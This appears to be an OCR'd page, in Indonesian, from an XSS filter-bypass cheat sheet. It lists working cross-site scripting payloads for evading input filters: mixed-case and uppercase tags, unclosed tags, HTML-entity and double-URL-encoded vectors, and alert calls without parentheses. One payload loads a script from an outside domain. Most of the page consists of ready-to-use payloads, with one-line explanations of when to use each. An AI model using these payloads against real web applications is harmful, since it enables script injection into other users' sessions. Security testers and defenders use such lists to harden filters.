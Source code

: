 \# filter bypass

> Mixed Case XSS

Gunakan untuk mem-bypass filter case-sensitive.

      <Svg OnLoad=alert(1)>
    
      <Script>alert(1)</Script>

> Unclosed Tags

Gunakan dalam suntikan HTML untuk menghindari pemfilteran di bawah kedua (<) dan

lebih besar dari (>) tanda. Dibutuhkan asli yang lebih besar dari kode sumber masuk setelah input

refleksi.

     <svg onload=alert(1)//
    
     <svg onload="alert(1)"

> Uppercase XSS

Gunakan saat aplikasi mencerminkan input dalam huruf besar. Ganti "&" dengan "% 26" dan "#" dengan

"% 23" di URL.

      <SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
    
      <SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>

> Extra Content for Script Tags

Gunakan saat filter mencari "<script>" atau "<script src = ..." dengan beberapa variasi tetapi tanpa

memeriksa atribut lain yang tidak diperlukan

     <script/x>alert(1)</script>

> Double Encoded XSS

Gunakan ketika aplikasi melakukan decoding input ganda.

    %253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
    
    %2522%253E%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E

> Alert without Parentheses (Strings Only)

Gunakan dalam vektor HTML atau injeksi javascript ketika tanda kurung tidak diizinkan dan a

kotak peringatan sederhana sudah cukup.

     alert\`1\`

> Alert without Parentheses

Gunakan dalam vektor HTML atau injeksi javascript ketika tanda kurung tidak diizinkan dan PoC

perlu mengembalikan informasi target.

      setTimeout\`alert\\x28document.domain\\x29\`
    